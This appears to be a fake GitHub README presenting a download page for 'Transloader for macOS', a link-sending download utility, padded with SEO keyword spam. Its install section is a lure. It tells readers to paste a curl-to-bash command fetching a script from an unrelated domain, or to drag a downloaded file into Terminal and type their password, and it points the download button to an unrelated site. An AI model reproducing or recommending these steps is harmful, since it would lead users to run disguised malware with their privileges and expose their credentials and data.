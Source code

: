 <p align="center">
  <img src="https://eternalstorms.at/img/transloader.png" alt="Transloader Logo" width="150"/>
</p>

<h1 align="center">📥 Transloader for macOS</h1>

<p align="center"><strong>Send links from your iPhone or iPad and let your Mac handle the downloads.</strong><br>
Perfect for remote link management and seamless iCloud-driven file transfers.</p>

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/95"><img src="https://img.shields.io/badge/⬇️ Download-Transloader-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Button"></a>
</p>

---

## 🖼️ Preview Screenshots

<p align="center">
  <img src="https://setapp.com/cdn-cgi/image/quality=75,format=auto,width=780/https://store.setapp.com/app/481/screenshots/1622537704-60b5f5e88012d.jpg" width="400"/>
  <img src="https://eternalstorms.at/transloader/img/splash1_dark_3x.jpg" width="400"/>
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---
📌 About Transloader for macOS
Transloader for Mac is a convenient utility that allows you to remotely send download links from your iPhone, iPad, or other Macs directly to your Mac for automatic downloading. Designed to simplify the workflow of managing downloads across devices, Transloader runs silently in the background, monitoring and downloading files immediately after you send the links.

Ideal for users who frequently switch between Apple devices, Transloader supports a wide range of file types and integrates seamlessly with macOS, ensuring downloads are organized and ready when you return to your Mac. With an intuitive interface and minimal setup, it enhances productivity by removing the need to manually transfer download URLs or files.

Compatible with all modern Macs including Apple Silicon models, Transloader is a must-have tool for those who want to streamline their cross-device downloading process effortlessly.

---

## 📌 System Compatibility  
macOS 12,13,14,15+

---

## 🎯 Main Features

- Push URLs from iPhone or iPad to Mac with one tap  
- Automatic downloads begin instantly on your Mac  
- iCloud sync support for seamless handoff  
- Link queue and history across devices  
- No third-party accounts needed

---

## 📢 Why Users Choose It

- Convenient link transferring between devices  
- Saves time when you're on the go  
- Privacy-first architecture  
- Perfect for large downloads or slow networks  
- Intuitive, clean macOS-native interface

---

## 🔍 SEO Keywords

Transloader, Transloader Mac, Transloader for Mac, Transloader Mac download, download Transloader for Mac, Transloader macOS app, Transloader MacBook, Transloader MacBook Pro, Transloader MacBook Air, Transloader M1 Mac, Transloader M2 Mac, Transloader M3 Mac, Transloader Apple Silicon, Transloader Intel Mac, Transloader dmg Mac, Transloader direct download Mac, Transloader .dmg file Mac, install Transloader Mac, get Transloader on Mac, Transloader app download Mac, Transloader download manager Mac, Transloader remote download Mac, Transloader cross device Mac, Transloader macOS utility, Transloader workflow Mac, Mac Transloader setup, Transloader file downloader Mac, Transloader link sender Mac, Transloader background downloader Mac, Transloader automation Mac

